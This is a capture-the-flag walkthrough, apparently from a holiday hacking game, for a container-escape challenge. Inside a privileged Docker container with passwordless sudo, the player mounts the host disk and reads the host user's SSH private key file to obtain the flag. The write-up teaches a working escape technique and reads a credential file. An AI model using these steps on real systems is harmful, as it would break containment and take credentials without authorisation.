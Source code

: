 Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex string appears in the host file /home/jailer/.ssh/jail.key.priv?

Difficulty: 3/5

## Chat with Tinsel Upatree
Hiya hiya, I'm Tinsel Upatree!

Check me out, I'm working side-by-side with a real-life Flobbit. Epic!

Anyway, would ya' mind looking at this terminal with me?

It takes a few seconds to start up, but then you're logged into a super secure container environment!

Or maybe it isn't so secure? I've heard about container escapes, and it has me a tad worried.

Do you think you could test this one for me? I'd appreciate it!

## Terminal
```
Greetings Noble Player, 

You find yourself in a jail with a recently captured Dwarven Elf.

He desperately asks your help in escaping for he is on a quest to aid a friend in a search for treasure inside a crypto-mine. 

If you can help him break free of his containment, he claims you would receive "MUCH GLORY!"

Please, do your best to un-contain yourself and find the keys to both of your freedom.
grinchum-land:~$ 
```
> Run the command `cat /proc/1/cgroup`. We see the word docker in there so we can confirm we are in a container.
```
grinchum-land:~$ cat /proc/1/cgroup

11:perf_event:/docker/458e80d1361a21cc036950ff9a1ad22f15cd03436c974da3b196a3f0fa23e810
10:pids:/docker/458e80d1361a21cc036950ff9a1ad22f15cd03436c974da3b196a3f0fa23e810
9:cpuset:/docker/458e80d1361a21cc036950ff9a1ad22f15cd03436c974da3b196a3f0fa23e810
8:hugetlb:/docker/458e80d1361a21cc036950ff9a1ad22f15cd03436c974da3b196a3f0fa23e810
7:blkio:/docker/458e80d1361a21cc036950ff9a1ad22f15cd03436c974da3b196a3f0fa23e810
6:devices:/docker/458e80d1361a21cc036950ff9a1ad22f15cd03436c974da3b196a3f0fa23e810
5:net_cls,net_prio:/docker/458e80d1361a21cc036950ff9a1ad22f15cd03436c974da3b196a3f0fa23e810
4:cpu,cpuacct:/docker/458e80d1361a21cc036950ff9a1ad22f15cd03436c974da3b196a3f0fa23e810
3:memory:/docker/458e80d1361a21cc036950ff9a1ad22f15cd03436c974da3b196a3f0fa23e810
2:freezer:/docker/458e80d1361a21cc036950ff9a1ad22f15cd03436c974da3b196a3f0fa23e810
1:name=systemd:/docker/458e80d1361a21cc036950ff9a1ad22f15cd03436c974da3b196a3f0fa23e810
0::/docker/458e80d1361a21cc036950ff9a1ad22f15cd03436c974da3b196a3f0fa23e810
```
> Run the command `ls /dev/`. We have access to a lot of devices which could indicate that we are in a privileged container.
```
grinchum-land:~$ ls /dev/
autofs           loop1   ptp0      tty12  tty24  tty36  tty48  tty6     vcs1   vcsu
btrfs-control    loop2   pts       tty13  tty25  tty37  tty49  tty60    vcs2   vcsu1
core             loop3   random    tty14  tty26  tty38  tty5   tty61    vcs3   vcsu2
cpu              loop4   shm       tty15  tty27  tty39  tty50  tty62    vcs4   vcsu3
cpu_dma_latency  loop5   snapshot  tty16  tty28  tty4   tty51  tty63    vcs5   vcsu4
cuse             loop6   stderr    tty17  tty29  tty40  tty52  tty7     vcs6   vcsu5
fd               loop7   stdin     tty18  tty3   tty41  tty53  tty8     vcsa   vcsu6
full             mem     stdout    tty19  tty30  tty42  tty54  tty9     vcsa1  vda
fuse             mqueue  tty       tty2   tty31  tty43  tty55  ttyS0    vcsa2  vsock
input            net     tty0      tty20  tty32  tty44  tty56  uhid     vcsa3  zero
kmsg             null    tty1      tty21  tty33  tty45  tty57  uinput   vcsa4
loop-control     nvram   tty10     tty22  tty34  tty46  tty58  urandom  vcsa5
loop0            ptmx    tty11     tty23  tty35  tty47  tty59  vcs      vcsa6
```

> Run the command `sudo -l` to list the commands we are allowed to perform.
```
grinchum-land:~$ sudo -l
User samways may run the following commands on grinchum-land:
    (ALL) NOPASSWD: ALL
```

From https://learn.snyk.io/lessons/container-runs-in-privileged-mode/kubernetes/ 
>if you are a privileged user in a privileged container you have elevated privileges on the host system.

> let us mount the host file system in the docker container like so
```
grinchum-land:~$ sudo fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes
grinchum-land:~$ sudo mount /dev/vda /mnt/host
```
> Now search the mounted file system for secrets.
```
grinchum-land:~$ cd /mnt/host
grinchum-land:/mnt/host$ ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
boot  etc  lib   lib64  lost+found  mnt    proc  run   srv   tmp  var
grinchum-land:/mnt/host$ cd home/
grinchum-land:/mnt/host/home$ ls
jailer
grinchum-land:/mnt/host/home$ cd jailer/
grinchum-land:/mnt/host/home/jailer$ ls
grinchum-land:/mnt/host/home/jailer$ ls -a
.  ..  .ssh
grinchum-land:/mnt/host/home/jailer$ cd .ssh/
grinchum-land:/mnt/host/home/jailer/.ssh$ ls
jail.key.priv  jail.key.pub
grinchum-land:/mnt/host/home/jailer/.ssh$ cat jail.key.priv 

                Congratulations! 

          You've found the secret for the 
          HHC22 container escape challenge!

                     .--._..--.
              ___   ( _'-_  -_.'
          _.-'   `-._|  - :- |
      _.-'           `--...__|
   .-'                       '--..___
  / `._                              \
   `. `._               one           |
     `. `._                           /
       '. `._    :__________....-----'
         `..`---'    |-_  _- |___...----..._
                     |_....--'             `.`.
               _...--'                       `.`.
          _..-'                             _.'.'
       .-'             step                _.'.'
       |                               _.'.'
       |                   __....------'-'
       |     __...------''' _|
       '--'''        |-  - _ |
               _.-''''''''''''''''''-._
            _.'                        |\
          .'                         _.' |
          `._          closer           |:.'
            `._                     _.' |
               `..__                 |  |
                    `---.._.--.    _|  |
                     | _   - | `-.._|_.'
          .--...__   |   -  _|
         .'_      `--.....__ |
        .'_                 `--..__
       .'_                         `.
      .'_    082bb339ec19de4935867   `-.
      `--..____                        _`.
               ```--...____          _..--'
                     | - _ ```---.._.'
                     |   - _ |
                     |_ -  - |
                     |   - _ |
                     | -_  -_|
                     |   - _ |
                     |   - _ |
                     | -_  -_|
grinchum-land:/mnt/host/home/jailer/.ssh$ 
```
>082bb339ec19de4935867 is the hex string that appears in the host file.

## Rejoice
Great! Thanks so much for your help!

Now that you've helped me with this, I have time to tell you about the deployment tech I've been working on!

Continuous Integration/Continuous Deployment pipelines allow developers to iterate and innovate quickly.

With this project, once I push a commit, a GitLab runner will automatically deploy the changes to production.

WHOOPS! I didn’t mean to commit that to http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git...

Unfortunately, if attackers can get in that pipeline, they can make an awful mess of things!

## Find the Next Objective
Talk to Tinsel Upatree for the next objective.
